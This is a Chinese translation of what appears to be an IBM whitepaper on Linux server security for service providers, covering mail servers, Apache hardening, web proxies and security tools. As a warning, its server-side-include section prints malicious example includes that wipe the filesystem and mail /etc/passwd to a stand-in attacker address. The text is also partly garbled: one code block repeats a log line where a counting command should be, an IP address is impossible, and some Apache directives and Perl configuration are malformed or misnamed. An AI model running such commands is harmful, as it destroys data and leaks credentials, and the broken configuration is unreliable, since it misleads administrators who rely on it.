-   从 Red Hat 7.1 开始，默认情况下，Sendmail 不接受来自本地计算机以外的任何网络连接（这在默认安全方面是好事）。如果你需要将 Sendmail 配置为其他客户端的服务器，请编辑 `/etc/sendmail.mc` 并更改 `DAEMON_OPTIONS` 以便也监听网络设备，或者连接此其他选项。你需要通过运行命令来重新生成 `/etc/sendmail.cf`。
-   控制 Sendmail 拒绝服务 (DoS) 攻击。攻击手段是向服务器发送大量邮件，导致邮件服务器的磁盘实际上被“mail” 用户/组填满。一种简单的方法是设置配额或限制，允许给定用户可以消耗的邮件数量设置软限制（警告）和硬限制（停止）。
-   在不是邮件服务器或邮件中继的 Linux 服务器上禁用 Sendmail（参见上文中关于为你发行版禁用服务的章节）。
-   如果你需要保持启用 Sendmail，且 Linux 服务器不是邮件服务器或中继，请勿以守护模式运行 Sendmail（禁用 "-bd" 关）。
-   更多 Sendmail 建议可以在此处找到：http://www.sendmail.org/net/000705securitygeneral.html

## Postfix

虽然 Sendmail 是如今的 MTA，但 Postfix 是一个备受推崇的替代方案。Postfix (http://www.postfix.org) 尝试快速、易于管理且安全，同时保持足够的 Sendmail 兼容性以防打扰现有用户。因此，它的外部具有“类 Sendmail”的味道，但其内部是完全不同的。Postfix 由 Wietse Venena 在 IBM T. J. Watson 研究实验室开发²⁰。它曾被称为 VMailer，后来于 1998 年底作为 IBM Mailer 发布。从那时起，它一直作为 Postfix 提供服务。

> ¹⁹ http://www.linuxdoc.org/HOWTO/mini/Quota.html
²⁰ Wietse Venena 是一个安全软件开发人员以及 TCP Wrapper 和 The Coroner's Toolkit 等其他价值工具的作者。ftp/ftp.porcupine.org/pub/security/index.html

Postfix创建是以安全为主要设计目标的。本质上，Postfix 实践了“信任环”，通过独立的进程进行交互。Postfix 基于“半驻留、相互协作的进程”，这些进程为彼此执行特定任务，而没有特定的父子关系。再次，在独立的进程中工作比一个大程序（例如 Sendmail）具有更好的隔离性。只需要运行一个主进程，该进程不与互联网交互。此外，所有进程都可以被“chroot”。这种分布式和隔离进程架构的最终结果是它创建了一个更难崩溃的设计，因为需要多个进程才能攻破单个单一程序。

推荐的 Postfix 实践包括：

-   利用 main.cf 中的 Postfix `default_process_limit` 来控制资源使用。
-   考虑更改 maildrop banner、setgroup（详情请参见 http://www.postfix.org/security.html 下“Set-uid”部分）。
-   配置 SMTP banner，类似于上面给出的 Sendmail 示例。在 main.cf 中使用 `smtpd_banner` 指令。

## Qmail

Qmail 是 Sendmail 的类似替代方案，从一开始就为安全设计，因此是 Postfix 的开源竞争对手。Qmail (http://cr.yp.to/qmail.html) 的使用增长非常快。根据作者网站，截至 2001 年 10 月，有超过 700,000 个 IP 地址作为 SMTP 服务器运行。使用 qmail 作为 SMTP 服务器的一些显著地址包括：Yahoo!, NetZero, Address.com, Onelist 和 Critical Path。

Qmail 作者 Dan Bernstein 在 1997 年提供了“安全保证”来证明 qmail 是安全的 (http://cr.yp.to/qmail/guarantee.html)。虽然我不像黑客那样经常信奉乐观，但它说明了 qmail 及其开发者在安全设计方面的关注和信心。就其价值而言，在 qmail 中发布漏洞利用程序的奖金尚未认领。上面的链接还包含了作者关于为什么 qmail 是安全的理由，如果你正在考虑将 qmail 作为你的服务器，这绝对值得一读。

其他一些 qmail 资源：

-   有一份将大型 Sendmail 站点迁移到 qmail 的清单：http://cr.yp.to/sendmail.html。
-   如果你使用 qmail 进行高并发发送，请考虑使用高并发补丁 (http://mail.area.com/big-concurrency-patch) 和 qmailqstat 补丁 (http://mail.area.com/big-todo.103.patch)。根据你的需求和预期，你应该考虑运行多个 qmail 服务器实例。

> 21 对于使用 SSH 构建 chroot 环境的小组，参见 http://www.security.com/infocus/1404 的《Building a Secure User Environment with SSH》
22 其他使用 qmail 的网站可以在 mail.area.com/ 找到

Qmailanalog (http://cr.yp.to/qmail.html) 是一个工具集，帮助你分析 qmail 的活动（例如，有多少消息、接收者、尝试是 50/75/100% 的

# Linux 病毒和垃圾邮件过滤器

服务提供商邮件的一个益处是可以对邮件进行预筛选过滤病毒、蠕虫、木马或垃圾邮件。通过在边界 服务器周围放置 Linux 过滤器，服务提供商可以为其服务协议增加价值。此外，Linux 过滤器与发送和接收邮件客户端无关（例如 Microsoft Outlook、Macintosh、Linux 等）。图下方列出了一些开源病毒和过滤器应用程序示例。

以下是将 Linux 过滤器集成到电子邮件架构的高级示例。这可以实现为独立的 Linux 邮件/过滤器服务器（如图所示），可能位于 Linux 防火墙系统中（取决于病毒扫描包）。


AMAVis (http://www.amavis.org/amavis.html) 是一个位于入站 SMTP 服务器（例如 Sendmail, Qmail, Postfix）上的 GPL 应用。当邮件到达时，消息将通过脚本解析，提取邮件中的所有附件，解压（如果需要）并使用专业的病毒扫描程序进行扫描（如 Network Associates Virus Scanner, Sophos Weep, CA IncludeIT.）。

Qmail Scanner (http://qmail-scanner.sourceforge.net/)（也称为 scan4virus）允许 qmail 服务器扫描所有网关邮件的特征。它通常用于防病毒功能，与商业病毒扫描器配合使用。Blackmail (http://www.jsm-net.demo.co.uk/blackmail/blackmail.html) 是一种处理入站和（可选）出站邮件的垃圾邮件过滤器。过滤由


# IBM

对 SMTP 封包和邮件标头进行各种检查：如果任何一项检查失败，邮件将被退回。Blackmail 可以通过 DNS 验证垃圾邮件网站、关键词、主机名和电子邮件地址的有效性，使用黑洞列表（如 RBL）检查 IP 地址，验证垃圾邮件签名（例如证明“收件人”和“发件人”地址不匹配），以及验证标头信息的正确性。

[Junkfilter](http://junkfilter.zer0.org/) 是一个基于 Procmail 的过滤系统。Procmail 是 Linux 和 Unix 系统中非常流行且强大的邮件处理程序。Junkfilter 采用 BSD 许可证（http://junkfilter.zer0.org/pkg/current/LICENSE）。Junkfilter 和 Procmail 提供了一个高度配置且灵活的垃圾邮件过滤系统。例如，我见过 Junkfilter 被用作“自动回复”向垃圾邮件发送者发送退回邮件，使其尝试发送的垃圾邮件到达一个无效邮箱（许多邮件服务器随后会对其进行删除）。

为邮件附件制定特定策略应该是你整体安全管理计划的一部分。关于定义邮件附件安全策略的建议，请参阅：http://www.advosys.com/tips/attachment-policy.html

# Linux Web 和应用服务器

Apache 是一个极其灵活的 Web 服务器。在我多年工作 Apache 的，我看到它被应用于从手表一样小的设备到最大的大型机计算机。此外，Apache 被应用于众多应用领域，随着 Web 服务的兴起，作为服务平台的 Apache 将变得更加流行。这种灵活性、演进能力和良好记录就是为什么 Apache 占据了 Web 市场份额的原因。这也是为什么保护 Linux 服务器基础设施中这一关键方面如此关重要的原因。

首先，理解 Apache 如何运行和操作至关重要。Apache 通常绑定到 TCP 端口 80（提供 HTTP 服务的默认端口）。当服务在端口上运行时，它必须以 root 身份启动，因为 1023 以下的端口（“良性端口”）被认为是特权端口，因此具有更改派生守护进程用户的权限。这是通过在 httpd 配置中设置“User”和“Group”名称来实现的。默认配置为 User 和 Group “nobody”。以下显示了父进程以 root 启动，而派生进程以 nobody 身份运行并处理请求：

```bash
root@ordor config# ps -ef | grep http
root 5675 0:00 00:00 /usr/local/apache/bin/httpd
nobody 5676 0:00 00:00 /usr/local/apache/bin/httpd
nobody 5677 0:00 00:00 /usr/local/apache/bin/httpd
nobody 5678 0:00 00:00 /usr/local/apache/bin/httpd
nobody 5679 0:00 00:00 /usr/local/apache/bin/httpd
nobody 5680 0:00 00:00 /usr/local/apache/bin/httpd
```

邮件服务器管理员应对 SPAM 相关主题和问题（如中继和 RBL）有深入理解。有关这些主题的更多信息，请参阅：http://mailabuse.org/rbl/ 和 http://www.spamtrap.org/。由于 HTTP 构建在 Apache 之上，关于 Apache 配置和操作的注释同样适用于 HTTP 服务器。IANA 端口编号：http://www.iana.org/assignments/port-numbers

当配置这些用户和组时，许多人会专门创建一个用户或组来处理 httpd 进程（例如“web”）。另一种避免以 root 身份启动进程的方法是在 1023 以上的端口上运行 Apache（许多网站使用 8080），这允许由非特权用户启动 Apache。

## Apache 安全配置

正如我们在上面通过 Group 指令看到的，MaxRequests 限制了单个连接可以发送请求的数量。这是控制潜在 DoS 攻击的另一种方法。增大此参数可以提高性能，但也增加了有人尝试 DoS 攻击的可能性。默认值为 100，我发现对于你的站点需求来说这是一个很好的设置。

KeepAliveTimeout 限制了 Apache 等待同一客户端下一个请求的秒数。默认值为 15，它可以是另一个有效的配置，用于关闭攻击者可能保持开启以进行 DoS 的连接。

LimitRequestBody 指定了请求体中允许的字节数（0 表示无限）。默认值由编译时常量 DEFAULT_LIMIT_BODY (0) 定义。LimitRequestBody 指令允许用户在每个目录、每个文件或每个位置的上下文中设置请求消息体允许的大小限制。如果客户端超过该限制，服务器将返回错误响应而不是处理请求。普通消息体的大小将根据资源的性质有很大差异。

LimitRequestFields 接收一个从 0（表示无限）到 32767 的整数。默认值客户端使用的请求字段数量极少超过 20，但在不同的客户端实现之间可能会有所不同。此指令可以限制标头的暴露，防止攻击者尝试通过异常长的请求标头列表使服务器溢出。其他限制指令还包括：

- LimitRequestSize：限制每个请求标头的大小；
- LimitRequestLine：限制每行请求的长度；
- LimitRequestBody：限制基于 XML 的请求的最大字节大小。

限制物理资源是另一种有效方法，可以为 Apache 进程和应用程序提供“备份”，防止它们崩溃你的服务器。这些通常被用作安全机制，防止针对你的 Web 服务器的攻击导致整个机器宕机。Apache::SizeLimit 是一个 Perl 模块，允许在 Apache 进程增长过大时将其杀死（无论是由于攻击故意增长，还是由于 Bug 或内存泄漏无意中增长）。这可以是对 Apache 服务器上的一个有用控制，以限制由于失控进程导致 Linux 输出崩溃的可能性。以下是在你的 httpd.conf 中配置 Apache::SizeLimit 方法：

```perl
FixHandler Apache::SizeLimit
use Apache::SizeLimit;
## 最大共享 -- 仅杀死真正使用过多物理内存的进程
MAX_UNSHARED_SIZE = 30000; # 30MB
## 每次调用进程检查器时检查进程大小
CHECK_EVERY_N_REQUESTS = 2;
```

服务器包含 (SSI) 是在 Web 页面包含动态内容的强大方式，例如显示当前日期和时间，以及如下嵌入在 Web 页面中的服务器包含：

```
<!--exec cmd="date +%x"/>
```

这会在网页上输出：
11/16/2001

如果没有适当的安全措施，SSI 允许从 Web 页面调用 Linux 程序——这会暴露大量的安全风险。如果你的站点不需要 SSI，你可以指定：

Options None

此指令将禁用其所在容器内的所有“Options”。如果你的站点需要 SSI 功能，强烈建议禁止通过 SSI 执行 CGI 脚本：

Options IncludesNOEXEC

这允许服务器包含，但禁用通过 #exec 或 #include 执行程序。为什么要费此精力？有两个原因。第一是它可能带来巨大的安全风险，例如：

```
<!--exec cmd="rm -rf /"/>
<!--exec cmd="mail badguy@badguysite.org | cat /etc/passwd"/>
```

显然，这些是非常恶意的包含，但如果你的服务器没有妥善配置 SSI 和 CGI 安全，它们可能会被允许。第二个原因是有多种更安全、高效的方法可以为 Web 页面提供动态内容，例如使用受保护的 CGI、PHP 程序或 Java 应用程序。

Apache 提供了一个方便的工具来按目录配置，称为 .htaccess。“htaccess” 是一个包含 Apache 配置指令的文件。这些指令适用于该目录下的所有内容。

其他相关模块包括 mod_throttle、Apache::Resource 和 Randal Schwartz 的 Throttle 模块。


`.htaccess` 文件所在的位置，包括子目录。在服务提供商环境中，使用 .htaccess 文件非常有用，因为那里通常需要为不同的用户和客户定义每个目录的访问控制权限。Ken Coar 编写了一篇关于使用 .htaccess 的实用教程（http://apache-server.com/tutorials/ATusing-htaccess.html）。

安全地实现 .htaccess 至关重要。下面的指令将包含在 httpd.conf 中，它说明了如何确保 Apache 永远不会提供 .htaccess 文件本身——使用 `Files` 指令，它可以确保对任何名为 .htaccess 文件的请求都会被拒绝。

```
<Files .htaccess>
Order allow,deny
Deny from all
</Files>
```

下一个指令将包含在 .htaccess 文件中，它展示了如何限制一个目录仅允许 "staff" 组进行 POST 请求（其他方法，如 GET，仍允许未身份验证的用户访问）：

```
AuthName "Restrict POSTs"
AuthType Basic
AuthUserFile /etc/httpd/users
```

```
<Limit POST>
require group staff
</Limit>
```

对于此类认证，使用 .htaccess 的替代方案是在 httpd.conf 中包含配置，这被认为更容易管理和更安全（单点配置，且 httpd.conf 文件由特权用户可写）：

```
<Directory /usr/local/apache/htdocs/customer_a_dir>
AuthType Basic
AuthName "Customer A"
AuthUserFile /usr/local/apache/all_customers/customer_a_dir.htpasswd
require valid-user
</Directory>
```

这会导致对 http://yourdomain.com/customer_a_dir/ 的请求被提示进行密码认证。如果用户/密码与 `AuthUserFile` 中指定的 "customer_a_dir.htpasswd" 文件不匹配，请求将被拒绝。

根据您的客户的需求和灵活性，.htaccess 和 htpasswd 认证可以为服务提供商环境中各种基于 HTTP 的认证方案提供一种早期且有效的机制。

- 5. Apache Suexec 提供了以不同于调用 Apache Web 服务器的用户 ID 的用户 ID 运行 CGI 和 SSI 程序的能力。此功能在服务提供商基础设施中的多用户环境中非常有用。Suexec 基于一组 set-ID“封装”程序，该程序由主 Apache Web 服务器调用。当对管理员配置为以主服务器以外的用户执行的 CGI 或 SSI 程序发出 HTTP 请求时，就会调用该封装程序。当发出此类请求时，Apache 会向 suexec 封装程序提供程序名称以及该程序要执行的用户组 ID。欲了解 suexec 安全模型的分步说明，以及详细的安装和配置说明，请参阅：http://http.apache.org/docs/suexec.html

- 保持您的服务器信息和状态安全。server-info 和 server-status 是两个常用的 Apache 模块，用于提供有关 Apache 服务器配置和进程状态的详细信息。保护谁能够查看这些信息至关重要。以下指令将用在 httpd.conf 中（如果您的服务器上 server-info 和 status 是激活状态）。第一个指令允许来自 "yourdomain.com" 的 server-info——这也可以是一个特定的 IP 地址。第二个用于 server-status 的指令将请求限制为仅 localhost。

```
<Location /server-info>
SetHandler server-info
Order deny,allow
Deny from all
Allow from .yourdomain.com
</Location>
```

```
<Location /server-status>
SetHandler server-status
Order deny,allow
Deny from all
Allow from localhost
</Location>
```

- 限制文件系统访问。使使用户无法“遍历”您的文件系统。第一个包含在 httpd.conf 中的指令阻止对根目录的访问。

```
<Directory />
Order Deny,Allow
Deny from all
</Directory>
```

下一个指令处理上述相同类型的场景，但通过 `UserDir` 指令实现。例如，“UserDir /" 会将对 http://yourdomain.com/~root 的请求映射到 "/"，即根目录。为了防止这种情况，请在 httpd.conf 中指定以下内容：

UserDir disabled root

# IBM 诊断

## Web 服务器诊断

尽管我们都拥有复杂的工具，可以在有人尝试对我们的 Web 服务器进行恶意攻击时提醒我们我们的无线设备状况，但当系统资源变得可疑时，您或您的客户可能需要进行实时分析。这里有几个命令行分析工具，用于在您的 Web 或应用程序日志中查找可疑活动。

Code Red 病毒没有感染 Linux 服务器，但随着该词汇在互联网上的传播，它向所有服务器发送了大量请求。当然，当 Web 服务器遭受导出 Windows 文件请求（如 "default.ida"）的轰炸时，这涉及到性能和系统资源（磁盘）问题。

典型的 Code Red 请求看起来如下：

```
192.168.2.12 - [19/Jul/2001:16:55:47 +0000] "GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN090%u683%
```

要快速检查此类 "default.ida" 并统计行数，可以执行：

```
192.168.2.12 - [19/Jul/2001:16:55:47 +0000] "GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN090%u683%
```

正如最后几行所示，来自 IP 地址 204.476.138.11 的 "default.ida" 请求有 1223 次。这清楚地说明了针对此 Web 服务器的脚本攻击（或者至少是配置不当的 Web 服务器）。从这里，我们可以密切监控请求此路径的 IP 地址，并联系他们或针对他们的请求采取防御措施（从通过 "SetEnv”示例在边界路由器或防火墙处拦截他们的请求）。

## Web 服务

Web 服务可能会增加服务提供商的范围和有效性，并可能创建新的服务市场渠道。随着 Web 服务的快速采用，将这些技术纳入您的 Linux Web 和应用程序安全计划中至关重要。事实上，Web 服务的核心关键技术之一 SOAP 被设计为利用 HTTP 作为其传输，以克服其他 RPC 协议（如 DCOM 和 CORBA）的一些之前的问题（例如使用隧道转发）。

然而，SOAP 在当前实现中没有实现任何安全功能，这将其留给了后来的用户。最初反应是将 SOAP 消息封装在 SSL 或 IPSec 实现中，以提供安全通道。这是传输层（SSL）和网络层（IPSec）安全，而不是应用层安全


由于应用程序的最终结果仍然是 SOAP 消息，由于传输和层服务在此阶段已经完成，这导致应用程序无法控制底层层级的安全策略或操作能力。在 SOAP over SSL 或 IPSec 安全模型中，端到端和持久化方面也存在缺点。为了解决其中的一些问题，有一项使用数字签名的 SOAP 扩展，目前正在 W3C 考虑范围中（http://www.w3.org/TR/SOAP-dig/）。³³

同时，如果您的客户需要在其 Linux 服务器环境中实现 SOAP，请考虑以下某些问题：

- SOAP 并不局限于 HTTP 80 端口。请为专门用于该目的的服务进行隔离——这有利于于设置防火墙。使用 Apache 配置指令 "Listen"、Port" 和/或 "VirtualHost" 为 SOAP 服务器配置一个不同的端口。如果可能，请也为 Web 服务配置一个不同的域名和唯一的端口号。
- 使用 SSL 加密该端口的 Web 服务数据。对于 SOAP 客户端来说，这只需要指定 "https" 而非 "http" 那么简单。当然，您的服务器需要构建 SSL 支持。
- 考虑使用 Apache Tomcat facet 来处理 SOAP 请求。示例请参阅 (http://cookbook.soaplite.com/) 上的 SOAP:Lite 食谱。
- 注意，SOAP 是 Web 服务的潜在优势之一⁴，因此您的 Web 服务策略和安全策略应该能够适应未来的多种传输协议。
- 于 Web 服务是新兴技术，关注 Web 服务的发展是值得的。例如，Web Services Toolkit (http://www.alphalorks.ibm/tech/webservicestoolkit) 中有一个 SOAP 加密的原型实现。您可能还想关注 W3C XML 加密工作组（http://www.w3.org/Encryption/2001/）的进展。

## Web 代理

通常，Web 服务器或代理服务器位于本地网络 DMZ 与外部世界之间的专用服务器，将内部用户或自定义的 Web 请求传输并“代理”到互联网，通常会缓存 Web 页面结果以加速对相同 URL 的后续请求。然而，代理服务器往往更容易配置错误，这可能允许任何互联网用户通过配置错误的服务器将他们的 HTTP 请求代理到其他目标。此外，许多 Web 服务在作为代理运行，而其管理员完全没有引入过代理服务器（由于故障或错误配置）。这些被安全社区视为“开放代理”，并经常被列在各种网站上。恶意用户倾向于使用代理服务器来匿名自己的浏览，或模拟合法用户以试图获得内部访问权限。

> ³³ SOAP-DIG - http://www.ibm.com/developers/webservices/library/ws-soapsec/
⁴⁴ WSIF 是一个独立于 SOAP 的 Web 服务框架 -- http://www-106.ibm.com/developers/webservices/library/ws-wsif.html


最近，后一个例子被黑客利用 MCI WorldCom 的一个开放代理进行了³⁵。通过使用名为“Proxy Hunter”的代理扫描器，黑客发现了一个开放代理并开始浏览 WorldCom 的内网，表现像一个有效的员工，据称正在查阅各种敏感的员工数据。类似的例子也发生过 Excite@Home，该事件允许通过配置错误的代理访问内部网络，据称暴露了 Excite@Home 拥有 295 万移动订阅者的客户名单.³⁶

配置您的服务器以正确允许或禁止代理对于构建安全的提供商基础设施至关重要。一种简单的方法是测试您的服务器 HTTP 是否代理到了您的服务器，以及一个指向不同主机的 HTTP 请求：

```
[root@imorder~$] telnet your.server.com 80
Trying 192.12.17.99...
Connected to your.server.com (192.12.17.99).
Escape character is ""
GET http://othersite.com/HTTP/1.0
[ hit enter/return twice ]
```

如果您从 http://othersite.com 获取了 HTML 数据，那么您的服务器可能配置错误，因为您的服务器正在返回来自外国主机的数据——如果您没有将 http://your.server.com 作为代理服务器运行，这可能不是您的意图。如果您从您的服务器获取了 HTML 数据或错误，则您的服务器可能已配置为正确响应代理请求。如果您需要使用代理，请确保 http.conf 中正确定义了以下（如果您没有将此服务器作为代理，请完全注释或删除这些指令）：

```
<Directory proxy/>
Order deny,allow
Deny from all
Allow from your.server.com
</Directory>
```

Web 服务器中的配置错误或默认安装可能会通过开放代理导致潜在的安全漏洞。Web 代理保护是任何服务提供商安全策略的基本方面。

## 结论

在服务提供商基础设施中提供有效的安全是一项复杂的任务，但通过 Linux 使任务变得更加灵活、具有成本效益且强大。在当今高度网络化的世界，服务提供商不断面临客户访问、功能与保护用户及数据之间的平衡挑战。每天似乎都会带来新的互联网威胁，范围从服务中断到整个系统崩溃。

# IBM

要保护您的业务免受这种严酷环境的影响，需要设计良好的良好的安全框架。

正如我们从各种服务器场景所示，开放系统和软件比闭源系统具有安全优势——所有代码部分不仅可以受到审查，还可以以新颖有趣的方式进行扩展和应用。这允许社区以闭源系统世界无法比拟的速度来响应和应对安全事件及漏洞。最近的一个例子来自 Nimda 蠕虫。尽管它利用了微软产品（如 IIS、Internet Explorer 和 Outlook）的多种漏洞，但它也允许蠕虫通过单个感染点通过网络迅速扩散到整个企业。针对这一威胁，日本的一个 Samba 用户组发现他们可以在 Samba 配置文件中应用“否决文件”（veto files）来阻止蠕虫在支持 Samba 的网络共享之间传播。此信息通过新闻组和邮件列表迅速传播，现在已包含最新的 Samba 发行版中，作为一个特定的 README 文件³⁷。此外，这种技术可以防止任何 Win32 蠕虫尝试通过 Samba 网络共享传播。有很多类似的例子。

> ³⁵ http://www.linuxsecurity.com/articles/hackcracks article-4124.html
³⁶ http://www.securityfocus.com/news/209
³⁷ http://us.samba.org/README.Win32

## 附录 - 资源

**注意：** 本文档列出的资源、网站和工具均不经 IBM 认可、推荐或支持。如果您使用这些资源，请自担风险。对于所有安全相关的分析，请仅获得相关方的授权。

## 致谢

特别感谢 Doc Shankar、Norm Patten 和 Emily Rattiff 对本文提供的意见。

## 资源 - 书籍

- Intrusion Detection, Rebecca Bae, Macmillan Technology
- Real World Linux Security, Bob Toxen, Prentice Hull
- Hacking Exposed, Brian Hatch, James Lee, George Kurtz, McGraw Hill
- Applied Cryptography, 2nd Edition, Bruce Schneier, Wiley
- Network Intrusion Detection – An Analysts Handbook, Stephen Northcott, Riders
- Linux Security (Craig Hunt Library), Ramon J. Hotanton, Craig Hunt, Sybex
- TCP/IP Illustrated (Volumes 1, 2, 3), W. Richard Stevens, Gary R. Wright (Contributor), Addison-Wesley

## 资源 - 邮件列表

- CERT (http://www.cert.com)
- SANS (http://www.sans.com/sansnews)
- SecurityFocus (http://www.securityfocus.com/)
- SAFER (http://www.safermag.com/)
- Firewalls (http://lists.gnac.net/firewalls/)
- Firewall-Wizards (http://www.nrf.com/mailman/list/firewall-wizards)

## 资源 - 网站

- Linux Security HOWTO (http://www.linuxdoc.org/HOWTO/Security-HOWTO.html)
- Incidents.org (http://www.incidents.org/)
- LinuxSecurity.com (http://www.linuxsecurity.com/)
- Linux IPTables HOWTO (http://netflix.samba.org/unreliable-guides/packet-filtering-HOWTO/packet-filtering-HOWTO.document)
- Sendmail.net (http://sendmail.net/?feed=00705securitygeneral)
- Packtestorm (http://packtestorm.org/)
- SecurityFocus (http://www.securityfocus.com/)
- Digital Information Society (http://www.phreat.org/html/main.shtml)
- National Infrastructure Protection Center (http://www.nipc.gov/)
- Secure Programming for Linux and Unix HOWTO (http://linux.math.tifr.res.in/howto/Secure-Programs-HOWTO.html)


-   《极致 Linux 安全：黑客保护 Linux 服务器与网络指南》，Anonymous, Sams 著。

# 资源 - 工具

（注意：下方的大部分内容源自相应工具的文档或网站）

## 应用安全

### Whisker
RainForest.Puppy 开发的优秀 CGI 漏洞扫描器。

### Flawfinder
Flawfinder 是一个 Python 程序，用于在源代码中搜索潜在的安全漏洞，并按风险排序列出这些安全漏洞，优先显示最危险的漏洞。这种风险水平不仅取决于函数本身，还取决于函数参数的值。

### StackGuard
StackGuard 是一种编译器，用于保护程序防止“栈溢出”（stack smashing）攻击。栈溢出攻击是一种常见的渗透攻击形式。使用 StackGuard 编译的程序在很大程度上对栈溢出攻击免疫。该保护措施不需要修改源代码。

### Libsafe
人们普遍认为，解决缓冲区溢出和字符串攻击的最佳方案是在知晓特定程序存在漏洞的情况下修复这些缺陷程序。使用 Libsafe 和替代安全措施的真正益处在于防止未来的攻击。Libsafe 采用 GPL 协议。

## 入侵检测系统

### Tripwire
（商业版：http://www.tripwire.com，开源版：http://www.tripwire.org）
一个文件和目录检查器。Tripwire 是一个帮助系统管理员监控指定文件集任何变化的工具。通过定期使用（例如每天），Tripwire 可以通知用户文件已损坏或被篡改，从而确保服务器上数据的完整性。

### LIDS
LIDS（Linux 入侵检测系统）是一种入侵检测系统。其目标是通过禁用内核本身的某些系统调用，保护 Linux 系统免受 root 权限入侵。《入侵攻防》（Hacking Exposed）的作者 Brian Hatch 编写了一本关于 LIDS 的精彩深度指南。

### AIDE
AIDE（高级入侵检测环境）是一个开源包。它是一个基于cap 的轻级入侵检测系统，可检测多种其他攻击，如缓冲区溢出、端口扫描、CGI 炸弹等。

### Snort
(http://www.snort.org)
Snort 是一种检测攻击的数据包嗅探器。它具有规则匹配功能和实时警报能力，警报会发送到 syslog。它可以配置为客户端/服务器应用程序来监控网络上的主机。

### Samhain
(http://www.samhain.net)
Samhain 设计用于直观的配置和防篡改。它使用中心位置存储包含加密校验和的签名数据库，将文件的当前状态与该数据库对比，并在检测到违反策略时进行报告。Samhain 采用 GPL 协议。

## 安全测试工具

### Nmap (http://www.nmap.org)
首选的网络审计和测试工具（在上述正文中已有详细介绍）。

### LSOF (http://linuxsecure.org/tools/lsof)
lsof 为运行中的 Unix 进程打开文件。

### Netcat
Netcat 是一种使用 TCP 或 UDP 协议跨网络连接进行读写的实用程序。它是一个可靠的“后端”工具，因为它可以直接或被其他程序轻松调用来探索几乎任何类型的连接。

### Hping2 (http://huzz.org/hping2/)
hping2 是一种网络工具，用于发送 ICMP/UDP/TCP 包并像 ping 一样显示响应。它可以处理任意大小的数据包，执行 MTU 发现，识别远程操作系统指纹，也是学习 TCP/IP 的良好工具。

### Nemesis (http://www.packetninja.net/nemesis/)
Nemesis 项目被设计为基于命令的可端口 IP 栈，按协议、数据包大小、TOS（服务类型）和分片进行划分。它允许通过简单的 shell 脚本注入数据包流。

### Firewalk (http://www.packetfactory.net/Firewall/)
Firewalk 是由 MDS 开发的一种技术，采用类似于 traceroute 的技术分析网关响应并就地映射 ACL 过滤器。该工具的最新版本引入了图形界面选项且 Bug 较少。

### Cheops (http://www.marko.net/cheops/)
Cheops 是一个基于 GTK 的网络“瑞士军刀”。它提供了一个简单的接口来管理网络工具、绘制本地或网络地图，并显示机器的操作系统类型，类似于文件管理器处理文件系统的方式。

### SendIP (http://www.earth.li/projectpurge/sendip)
SendIP 有大量的命令选项，用于选择 RIP、TCP、UDP 或原始 IPv4 和 IPv6 包每个头部的内容。它还允许向包中添加任何数据。校验和可以自动计算，但如果你希望发送错误的校验和，它也支持。

## 密码工具

### Crack / Libcrack (http://.../-crypto/)
Crack 5 是 Alec Muff 经典本地密码破解器的更新版本。传统上，这些工具允许系统的任何用户破解 /etc/passwd 并确定系统上其他用户（或 root）的密码。现代系统要求你获得 /etc/shadow 的读取权限才能执行此操作。系统管理员偶尔运行破解器以验证所有用户都拥有强密码是一个非常好的主意。

### John The Ripper (http://www.openwall.com/john/)
活跃的密码破解工具，“John”（通常被称为 "John the Ripper”）是一个用于查找用户弱弱密码的工具。

### Passwdqc (http://www.openwall.com/passwdqc)
passwdqc 是一个用于感知 PAM 的密码更改程序（如 `passwd(1)`）的简单密码强度检查模块。除了检查普通密码外，它还对短语提供支持并可以提供随机生成的密码。

### Npassword (http://www.utexas.edu/cc/unix/software/npassword/)
npassword 是 Unix/Linux 系统密码命令的替换版本。新密码经过严格限制，以减少密码被 Crack 等程序猜中的概率。此外，npasswd 还解决了许多供应商提供的密码程序中的其他缺陷。将智能密码筛选与影子数据库相结合，为一次性密码或挑战/响应智能卡系统提供了最佳的保护。

## 网络扫描器

### Saint (http://www.security.com/saint/)
SAINT（安全管理员集成网络工具）是一种基于 SATAN 的安全评估工具。功能包括穿透防火墙扫描、来自 CERT & CIAC 公报的更新安全检查、严重程度分（红、黄、棕、绿）以及 HTML 界面。

### SARA (http://www-arc.com/sara/)
安全审计助手（SARA）是一种第三代安全分析工具，基于 SATAN 模型，该模型受类似 GNU GPL 的开源许可协议保护。它培养了一个协作环境，并定期更新以应对最新威胁。


# IBM

对 rebec 的一种修改，但它并非实际执行任何操作，而是向调用者返回一个无害的错误，并系统日志记录调用的主机、用户名以及尝试访问的服务的名称。此外，它对于检测诸如 ISS 和 SATAN 发起的扫描攻击也非常有用。

### Scanlog

scanlog 是一个 TCP 端口扫描检测工具，最初设计用于说明 IDS 服务器需要处理的各种攻击。

## 加密

### Stunnel

Stunnel 是一个允许你通过 Unix 和 Windows 上使用 SSL（安全套接层）加密任意 TCP 连接的程序。Stunnel 可以通过提供加密功能，允许你保护非加密感知的需求和协议（如 POP、IMAP、NNTP、LDAP 等），而无需更改守护进程的代码。

## OpenSSH / SSH

OpenSSH 是安全登录/rsh/rcp 的替代品，源自 OpenBSD 版本的 ssh，而该版本又源自 ssh 许可证更改为非免费之前的 ssh 代码。SSH（安全外壳）是一个用于登录远程机器并在远程机器上执行命令的程序。它通过在不安全的网络上为两个不信任的主机之间提供安全的加密通信。X11 连接和任意 TCP/IP 端口也可以通过安全通道进行转发。它旨在作为 rlogin、rsh 和 rcp 的替代品，并可用于通过通信通道提供 rdist 和 rys。

## GnuPG

GnuPG 是 PGP 的完整且免费的替代品。由于它不使用专利 IDEA 算法，因此可以在没有任何限制的情况下使用。GnuPG 是一个符合 RFC2440 (OpenPGP) 标准的应用程序。GnuPG 是一个创建和验证软件包的实用工具。例如，红 Hat 使用 GnuPG 生成的数字签名对其 RPM 包进行签名。

## 日志与流量监控

### MRTG

